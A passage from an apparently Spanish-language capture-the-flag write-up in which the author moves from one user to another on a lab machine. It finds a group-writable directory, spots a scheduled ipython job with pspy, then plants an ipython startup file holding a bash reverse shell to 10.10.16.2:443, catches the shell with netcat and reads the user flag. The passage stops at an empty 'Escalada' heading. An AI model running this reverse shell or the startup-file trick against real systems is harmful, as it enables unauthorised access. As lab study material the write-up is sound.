 Pertenezco al grupo ```developer```

```null
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```

Busco archivos cuyo grupo asignado sea este

```null
james_mason@shared:/$ find \-group developer 2>/dev/null 
./opt/scripts_review
```

Es un directorio vacío, pero dentro tengo capacidad de escritura

```null
james_mason@shared:/opt/scripts_review$ ls -la
total 8
drwxrwx--- 2 root developer 4096 Jul 14  2022 .
drwxr-xr-x 3 root root      4096 Jul 14  2022 ..
```

Subo el ```pspy``` para detectar tareas que se ejecutan a intervalos regulares de tiempo

```null
2023/06/30 05:09:01 CMD: UID=1001 PID=1135   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
```

Está ejecutando con ```ipython``` los scripts de esa ruta. En este [POC](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x) explican como elevar privilegios

```null
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.16.2/443 0>&1\"')" > profile_default/startup/foo.py
```

Gano acceso como este usuario en una sesión de ```netcat```

```null
nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.172] 58950
bash: cannot set terminal process group (1498): Inappropriate ioctl for device
bash: no job control in this shell
dan_smith@shared:/opt/scripts_review$
```

Puedo ver la primera flag

```null
dan_smith@shared:~$ cat user.txt 
6b944f4b614ee5fa3aac526303074525
```

# Escalada
